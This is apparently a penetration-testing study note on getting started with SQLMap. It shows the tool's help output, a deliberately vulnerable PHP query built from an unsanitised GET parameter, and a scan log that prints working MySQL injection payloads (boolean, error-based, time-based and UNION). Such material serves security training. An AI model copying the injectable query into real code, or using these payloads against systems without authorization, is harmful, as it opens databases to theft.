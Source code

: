```yaml
---
sticker: lucide//database-backup
---
```


# Getting Started with SQLMAP

Upon starting using SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

* `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch `-h`):

```shell-session
smoothment@htb[/htb]$ sqlmap -h
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs
...SNIP...
```

* `Advanced Listing` shows all options and switches (switch `-hh`):

```shell-session
smoothment@htb[/htb]$ sqlmap -hh
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file

  Request:
    These options can be used to specify how to connect to the target URL

    -A AGENT, --user..  HTTP User-Agent header value
    -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
    --method=METHOD     Force usage of given HTTP method (e.g. PUT)
    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --param-del=PARA..  Character used for splitting parameter values (e.g. &)
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
...SNIP...
```

For more details, users are advised to consult the project's [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), as it represents the official manual for SQLMap's usage.

***

### Basic Scenario

In a simple scenario, a penetration tester accesses the web page that accepts user input via a `GET` parameter (e.g., `id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/58/rOrm8tC.png)

To run SQLMap against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
